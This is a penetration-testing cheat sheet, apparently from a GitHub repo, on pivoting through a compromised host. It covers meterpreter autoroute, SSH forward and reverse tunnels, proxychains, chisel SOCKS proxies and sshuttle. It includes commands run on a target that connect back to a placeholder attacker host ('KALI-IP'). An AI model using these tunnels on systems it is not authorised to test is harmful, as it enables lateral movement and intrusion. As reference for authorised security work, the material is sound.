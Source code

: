 # SSH Tunnel

NOTE: needs valid SSH creds on box to pivot from.

## meterpreter tunnel

```bash
# to print existing routes 
autoroute -p

run autoroute [-s IP/CIDR]
[OR]
use post/multi/manage/autoroute
# use auxiliary/server/socks_proxy
```

## ssh tunnel:

### Forward tunnel (outgoing)

```bash
ssh user@IP -D PORT
# this sets up a tunnel between localhost:TUNNEL-PORT and target
# any requests to localhost:TUNNEL-PORT is routed via target
```

### Reverse tunnel (incoming)

#### authorized_keys file

```bash
from="IP",command="echo 'This account can only be used for Port Forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty <SSH-PUBLIC-key>
```

#### Command

```bash
# for allowing a connecting to your port from outside (incoming)
ssh -fN -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -R PORT -i <id_rsa> KALI-USER@KALI-IP

# -N: not running commands
# -f: go to background
# UserKnownHostsFile=/dev/null & StrictHostKeyChecking=no will not ask kali password; not safe to enter password on target.
```

## Proxychains

### /etc/proxychains4.conf

```bash
# add line for socks4/5 proxy 
[socks4|socks5] 127.0.0.1 6900

# comment out proxy_dns to avoid nmap hanging
```

Now, run any command using `$ proxychains4 [command]`

### proxychains4 for browser

Set up a foxyproxy configuration for browser:

1. Title: proxychains
2. Proxy Type: SOCKS4
3. Proxy IP: localhost
4. Port: 6900

## chisel tunnel

### Reverse socks proxy

NOTE: configure proxychains using `socks5 IP PORT`.

```bash
# server on kali
chisel server -p 8000 --reverse

# on target
# tunnel using chisel on kali:1080
chisel client KALI_IP:8000 R:socks
```

### Forward socks proxy

```bash
# server on target
chisel server -p 8000 --socks5

# on kali
chisel client TARGET_IP:8000 TUNNEL_PORT:socks
```

## sshuttle tunnel

* **REQUIREMENTS:**
    * Works only on linux targets
    * SSH access to target
    * Python on target (static binary works)

```bash
sshuttle -r USER@TARGET_IP [SUBNET/CIDR | -N] [--ssh-cmd "ssh -i KEY"] -x TARGET_IP
# -N: auto identify based on targers routing table
# -x: used to exclude current box from forward all subnet traffic
```